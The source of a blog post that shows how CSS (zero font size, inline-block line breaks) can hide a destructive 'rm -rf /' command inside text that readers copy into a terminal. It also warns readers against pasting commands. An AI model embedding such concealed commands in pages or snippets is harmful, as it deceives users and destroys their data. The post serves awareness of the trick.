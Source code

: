 ```yaml
---
layout: post
title: "Using CSS to hide evil things"
style: csshack
date: 2020-07-21
---
```



## Topic


Good evening neighbors,  
<br />
Quickie:  
Today I'd like to talk to you about a thing everyone does but no one pays a lot of 
attention to it.  
> __Copy/Pasting things from the internet into your terminal__

One would think what could possibly happen if I just copy this code from some
website I've found to fix my issue on the server.  
Well lets see...


## What you see isn't what you get

Let's take the following example:
<br />
Please use the textarea below to copy/paste the example into.  

{% include csshack.html %}

<img src="/assets/images/pikachu.jpg" style="max-width:40%">

<br />

While this attack isn't highly sophisticated I can think of multiple sysadmins off the top of my head who
would own their own server if they would be targeted by this attack.


## Craft
__HTML__
```
<span id="select">
    Copy/Paste to fix your
    <p id="danger">
        <br />
            rm -rf / # all your base are belong to us
        <br />
    </p>
    server
</span>
```

__CSS__
```
span#select{
    color: blue;
    user-select: all;
}
p#danger{
    display: inline-block;
    font-size:0px;
}
```

"display:inline-block" is used that the <br/> tags don't create a newline in html but act
as newline in a bash terminal which is equivalent as hitting the enter key. (doesn't work with zsh)  

"font-site:0px" is used to hide the text.

"user-select: all" was just added for convenience and could even be
suspicious to the trained eye.

## Why not JS/HTML5?
Of course it would be easier to copy any content to the user clipboard with
HTML5/JS. But I've wanted to share some CSS tricks with you guys. There's also
the CSS keylogger which I may share somewhere down the line.

## Conclusion
I've just wanted to share this piece of unlikely tech which could prevent you
from executing malicious code on your servers. :)

Also don't run around and just copy/paste stuff in your terminal.


### Likelihood
Highly unlikely ヽ(ﾟ_ﾟ)ノ

<br />

Thanks for reading. 
